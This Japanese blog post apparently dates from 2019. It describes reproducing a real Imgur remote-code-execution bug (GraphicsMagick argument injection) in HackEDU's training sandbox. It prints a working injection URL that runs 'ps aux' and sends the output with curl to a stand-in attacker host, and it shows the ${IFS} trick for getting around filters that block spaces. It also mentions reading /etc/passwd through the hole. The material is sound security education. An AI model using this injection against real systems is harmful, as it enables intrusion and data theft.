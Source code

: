 ```yaml
---
description: サイバーセキュリティに関する体験型学習サービスを提供する「HackEDU」がHackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした。HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。
---
```


# HackerOneに報告された脆弱性をHackEDUで再現する

<p class="modest" align="left">Mar 8, 2019</p>

---

サイバーセキュリティに関する体験型学習サービスを提供する「[HackEDU](https://hackedu.io/)」が[HackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした](https://www.hackerone.com/blog/Test-your-hacking-skills-real-world-simulated-bugs)。HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。

今回はバグハンターのneex氏が2017年に報告したImgurという画像共有サイトでのRCE（[#212696](https://hackerone.com/reports/212696)）を取り上げる。neex氏が脆弱性を発見した際の手順を再現しながら詳細を学んでいく。

## ImgurでのRCEの再現

HackEDUの利用者はブラウザからサンドボックス環境にアクセスし、ページ内に用意された仮想ブラウザと仮想プロキシを使って脆弱性を再現する。以下のページが[ImgurでのRCEのサンドボックス環境](https://hackedu.io/hacktivity/5f8e247b-98bc-4b7a-aa97-472dcc34a6f8)である。仮想ブラウザ上の1つ目のタブにImgurを再現したImgerというサイトが、2つ目にコールバックを確認するためのタブが開かれている。

<img src="/assets/2019/hackedu/top.webp" width="770" height="499" decoding="async" alt="top">

neex氏のレポートによると脆弱性は画像編集機能で見つかっている。Imgurでは画像処理ツールとして人気の高いImageMagickとGraphicsMagickのどちらかが利用されているとneex氏は推測し、どちらのツールにも存在する `-rotate` オプションを用いて調査を始めている。

サンドボックス環境では画像編集時のHTTPリクエストがPOSTメソッドで送られるが、GETメソッドに変更しても問題なく処理される。今回はレポートを忠実に再現するため、仮想プロキシでインターセプトしたHTTPリクエストをGETメソッドに変更した上でパラメータの値を書き換える。

<img src="/assets/2019/hackedu/intercept.webp" width="770" height="392" decoding="async" alt="intercept">

Imgurでは画像編集時に送信される `y` パラメータの値を画像処理ツールのコマンドライン引数に挿入していたため脆弱性が生じた。サンドボックス環境でも `y` パラメータの値に ` -rotate 90` を追加すると画像が90度回転する。

<img src="/assets/2019/hackedu/rotate.webp" width="770" height="396" decoding="async" alt="rotate">

さらなる調査の結果、ImgurではGraphicsMagickが利用されているとneex氏は確信し、`-write` オプションで任意のコマンドを実行できる仕様を用いてRCEを実証した<sup id="f1">[¹](#fn1)</sup>。PoCでは `y` パラメータから挿入した `ps` コマンドの実行結果を `curl` コマンドで外部のサーバーへ送信している。

サンドボックス環境では `http://attacker-callback.com:9000` へのコールバックを仮想ブラウザの2つ目のタブで確認できる。2つ目のタブを事前に開いてリッスン状態にしてから、1つ目のタブで以下のURLにアクセスすると `ps` コマンドの実行結果を受け取れる。実際の環境ではスペース（%20）を挿入できなかったためか、neex氏は `${IFS}` を代用して文字を区切っている<sup id="f2">[²](#fn2)</sup>。

hxxp://imger.com/edit/process?imageid=cd4caa87977d1469cfeedf5cce8e2992.jpg&a=crop&x=95&y=41%20-write%20|ps${IFS}aux|curl${IFS}hxxp://attacker-callback.com:9000${IFS}-d${IFS}@-&w=768&h=328&random=asdf

<img src="/assets/2019/hackedu/callback.webp" width="770" height="315" decoding="async" alt="callback">

## HackEDUでのHTTPリクエストの再送

今回取り上げた脆弱性はGETパラメータでも再現できたため、仮想ブラウザのアドレスバーからパラメータ操作が可能であった。しかしPOSTパラメータでの脆弱性を検証する場合、HTTPリクエストを何度もインターセプトして書き換えることになる。サンドボックス環境の仮想プロキシにはHTTPリクエストの再送機能が搭載されていないため、愛用のローカルプロキシでの再送を試みる。

サンドボックス環境とはいえ仮想ブラウザから発生するHTTPリクエストはHackEDUのサーバーに送信される。そのためサンドボックス環境のページを開いているブラウザでローカルプロキシを経由すればHTTPリクエストを操作できる。例えばBurp SuiteのRepeaterで以下のHTTPリクエストを再送すると、仮想ブラウザの2つ目のタブに `/etc/passwd` の内容が表示される。

<img src="/assets/2019/hackedu/burp.webp" width="770" height="235" decoding="async" alt="burp">

## 所感

脆弱性のレポートを読むだけと、実際に再現まで確認するとでは学びの量が違う。レポートに記載されていない別のパターンを試すことで新たな発見にもつながるし、記憶にも残りやすい。ソフトウェア製品の脆弱性の場合、修正前の古いバージョンを入手できれば再現は可能である。しかしWebアプリケーションの脆弱性の場合、サイト運営者でなければ修正後の再現は極めて難しい。HackEDUのようなサービスにより実在した脆弱性を容易に再現できるようになれば、バグハンターだけでなく開発者の学びにも役立つだろう。

今回は取り上げなかったが、HackEDUはWebアプリケーションの各種脆弱性のサンドボックス環境やCTF形式の問題も提供している。[無料アカウントではSQLインジェクションのみ](https://hackedu.io/demo)だが、脆弱性の再現から各プログラミング言語での修正まで体験できるコースもある。また年間$750の有料アカウントになれば[CVEが割り振られたソフトウェア製品の脆弱性](https://hackedu.io/vulnerabilities)や、バッファオーバーフローのような脆弱性のサンドボックス環境も利用できるようになる。有料アカウントは7日間の無料体験ができるので、まずは試用してから購入を検討したい。

---

<sup id="fn1">[¹](#f1)</sup> http://www.graphicsmagick.org/GraphicsMagick.html#details-write  
<sup id="fn2">[²](#f2)</sup> https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution
